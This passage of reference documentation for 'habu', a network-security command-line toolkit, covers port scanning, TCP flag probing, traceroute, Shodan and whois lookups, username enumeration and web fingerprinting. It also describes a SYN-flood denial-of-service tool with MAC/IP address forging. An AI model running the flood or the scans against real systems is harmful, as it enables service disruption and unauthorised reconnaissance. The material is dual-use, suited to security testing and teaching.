     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.shodan
-----------

.. code-block::

   Usage: habu.shodan [OPTIONS] IP

     Simple shodan API client.

     Prints the JSON result of a shodan query.

     Example:

     $ habu.shodan 8.8.8.8
     {
         "hostnames": [
             "google-public-dns-a.google.com"
         ],
         "country_code": "US",
         "org": "Google",
         "data": [
             {
                 "isp": "Google",
                 "transport": "udp",
                 "data": "Recursion: enabled",
                 "asn": "AS15169",
                 "port": 53,
                 "hostnames": [
                     "google-public-dns-a.google.com"
                 ]
             }
         ],
         "ports": [
             53
         ]
     }

   Options:
     -c           Disable cache
     -v           Verbose output
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.

habu.synflood
-------------

.. code-block::

   Usage: habu.synflood [OPTIONS] IP

     Launch a lot of TCP connections and keeps them opened.

     Some very old systems can suffer a Denial of Service with this.

     Reference: https://en.wikipedia.org/wiki/SYN_flood

     Example:

     # sudo habu.synflood 172.16.0.10
     .................

     Each dot is a packet sent.

     You can use the options '-2' and '-3' to forge the layer 2/3 addresses.

     If you use them, each connection will be sent from a random layer2 (MAC)
     and/or layer3 (IP) address.

     You can choose the number of connections to create with the option '-c'.
     The default is never stop creating connections.

     Note: If you send the packets from your real IP address and you want to
     keep the connections half-open, you need to setup for firewall to don't
     send the RST packets.

   Options:
     -i TEXT     Wich interface to use (default: auto)
     -c INTEGER  How many packets send (default: infinit)
     -p INTEGER  Port to use (default: 135)
     -2          Forge layer2/MAC address (default: No)
     -3          Forge layer3/IP address (default: No)
     -v          Verbose
     --help      Show this message and exit.

habu.tcpflags
-------------

.. code-block::

   Usage: habu.tcpflags [OPTIONS] IP

     Send TCP packets with different flags and tell what responses receives.

     It can be used to analyze how the different TCP/IP stack implementations
     and configurations responds to packet with various flag combinations.

     Example:

     # habu.tcpflags www.portantier.com
     S  -> SA
     FS -> SA
     FA -> R
     SA -> R

     By default, the command sends all possible flag combinations. You can
     specify which flags must ever be present (reducing the quantity of
     possible combinations), with the option '-f'.

     Also, you can specify which flags you want to be present on the response
     packets to show, with the option '-r'.

     With the next command, you see all the possible combinations that have the
     FIN (F) flag set and generates a response that contains the RST (R) flag.

     Example:

     # habu.tcpflags -f F -r R www.portantier.com
     FPA  -> R
     FSPA -> R
     FAU  -> R

   Options:
     -p INTEGER  Port to use (default: 80)
     -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
     -r TEXT     Filter by response flags (default: show all responses)
     -v          Verbose
     --help      Show this message and exit.

habu.tcpscan
------------

.. code-block::

   Usage: habu.tcpscan [OPTIONS] IP

     TCP Port Scanner.

     Print the ports that generated a response with the SYN flag or (if show
     use -a) all the ports that generated a response.

     It's really basic compared with nmap, but who is comparing?

     Example:

     # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
     22 S -> SA
     80 S -> SA
     443 S -> SA

   Options:
     -p TEXT     Ports to use (default: 80) example: 20-23,80,135
     -i TEXT     Interface to use
     -f TEXT     Flags to use (default: S)
     -s TEXT     Time between probes (default: send all together)
     -t INTEGER  Timeout for each probe (default: 2 seconds)
     -a          Show all responses (default: Only containing SYN flag)
     -v          Verbose output
     --help      Show this message and exit.

habu.traceroute
---------------

.. code-block::

   Usage: habu.traceroute [OPTIONS] IP

     TCP traceroute.

     Identify the path to a destination getting the ttl-zero-during-transit
     messages.

     Note: On the internet, you can have various valid paths to a device.

     Example:

     # habu.traceroute 45.77.113.133
     IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
     IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
     IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
     .
     IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
     .
     IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding

     Note: It's better if you use a port that is open on the remote system.

   Options:
     -p INTEGER  Port to use (default: 80)
     -i TEXT     Interface to use
     --help      Show this message and exit.

habu.usercheck
--------------

.. code-block::

   Usage: habu.usercheck [OPTIONS] USERNAME

     Check if the given username exists on various social networks and other
     popular sites.

     $ habu.usercheck portantier
     {
         "aboutme": "https://about.me/portantier",
         "disqus": "https://disqus.com/by/portantier/",
         "github": "https://github.com/portantier/",
         "ifttt": "https://ifttt.com/p/portantier",
         "lastfm": "https://www.last.fm/user/portantier",
         "medium": "https://medium.com/@portantier",
         "pastebin": "https://pastebin.com/u/portantier",
         "pinterest": "https://in.pinterest.com/portantier/",
         "twitter": "https://twitter.com/portantier",
         "vimeo": "https://vimeo.com/portantier"
     }

   Options:
     -c      Disable cache
     -v      Verbose output
     -w      Open each valid url in a webbrowser
     --help  Show this message and exit.

habu.vhosts
-----------

.. code-block::

   Usage: habu.vhosts [OPTIONS] HOST

     Use Bing to query the websites hosted on the same IP address.

     $ habu.vhosts www.telefonica.com
     www.telefonica.com -> 212.170.36.79
     [
         'www.telefonica.es',
         'universitas.telefonica.com',
         'www.telefonica.com',
     ]

   Options:
     -c          Disable cache
     -p INTEGER  Pages count (Default: 10)
     -f INTEGER  First result to get (Default: 1)
     --help      Show this message and exit.

habu.virustotal
---------------

.. code-block::

   Usage: habu.virustotal [OPTIONS] INPUT

     Send a file to VirusTotal https://www.virustotal.com/ and print the report
     in JSON format.

     Note: Before send a file, will check if the file has been analyzed before
     (sending the sha256 of the file), if a report exists, no submission will
     be made, and you will see the last report.

     $ habu.virustotal meterpreter.exe
     Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
     Sending file for analysis
     Waiting/retrieving the report...
     {
         "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
         "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
         "positives": 49,
         "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
         "response_code": 1,
         "scan_date": "2018-05-20 21:11:57",
         "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
         "scans": {
             "ALYac": {
                 "detected": true,
                 "result": "Trojan.CryptZ.Gen",
                 "update": "20180520",
                 "version": "1.1.1.5"
             },
             ... The other scanners ...
         },
         "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
         "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
         "total": 67,
         "verbose_msg": "Scan finished, information embedded"
     }

   Options:
     -v      Verbose output
     --help  Show this message and exit.

habu.web.report
---------------

.. code-block::

   Usage: habu.web.report [OPTIONS] [F]

     Uses Firefox to take a screenshot of the websites. (you need firefox
     installed, obviously)

     Makes a report that includes the HTTP headers.

     The expected format is one url per line.

     Creates a directory called 'report' with the content inside.

     $ echo https://www.portantier.com | habu.web.report

   Options:
     -v      Verbose output
     --help  Show this message and exit.

habu.web.screenshot
-------------------

.. code-block::

   Usage: habu.web.screenshot [OPTIONS] URL

     Uses Firefox to take a screenshot (you need firefox installed, obviously)

     $ habu.web.screenshot https://www.portantier.com

   Options:
     -o TEXT  Output file. (default: screenshot.png)
     --help   Show this message and exit.

habu.web.tech
-------------

.. code-block::

   Usage: habu.web.tech [OPTIONS] URL

     Use Wappalyzer apps.json database to identify technologies used on a web
     application.

     Reference: https://github.com/AliasIO/Wappalyzer

     Note: This tool only sends one request. So, it's stealth and not
     suspicious.

     $ habu.web.tech https://woocomerce.com
     {
         "Nginx": {
             "categories": [
                 "Web Servers"
             ]
         },
         "PHP": {
             "categories": [
                 "Programming Languages"
             ]
         },
         "WooCommerce": {
             "categories": [
                 "Ecommerce"
             ],
             "version": "6.3.1"
         },
         "WordPress": {
             "categories": [
                 "CMS",
                 "Blogs"
             ]
         },
     }

   Options:
     -c      Disable cache
     -v      Verbose output
     --help  Show this message and exit.

habu.whois.domain
-----------------

.. code-block::

   Usage: habu.whois.domain [OPTIONS] DOMAIN

     Simple whois client to check domain names.

     Example:

     $ habu.whois.domain portantier.com
     {
         "domain_name": "portantier.com",
         "registrar": "Amazon Registrar, Inc.",
         "whois_server": "whois.registrar.amazon.com",
         ...

   Options:
     --help  Show this message and exit.

habu.whois.ip
-------------

.. code-block::

   Usage: habu.whois.ip [OPTIONS] IP

     Simple whois client to check IP addresses (IPv4 and IPv6).

     Example:

     $ habu.whois.ip 8.8.8.8
     {
         "nir": null,
         "asn_registry": "arin",
         "asn": "15169",
         "asn_cidr": "8.8.8.0/24",
         "asn_country_code": "US",
         "asn_date": "1992-12-01",
         "asn_description": "GOOGLE - Google LLC, US",
         "query": "8.8.8.8",
         ...

   Options:
     --help  Show this message and exit.

habu.xor
--------

.. code-block::

   Usage: habu.xor [OPTIONS]

     XOR cipher.

     Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
     algorithms like AES. You can use habu.fernet for that.

     Example:

     $ habu.xor -k mysecretkey -i /bin/ls > xored
     $ habu.xor -k mysecretkey -i xored > uxored
     $ sha1sum /bin/ls uxored
     $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
     $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored

   Options:
     -k TEXT      Encryption key
     -i FILENAME  Input file (default: stdin)
     -o FILENAME  Output file (default: stdout)
     --help       Show this message and exit.
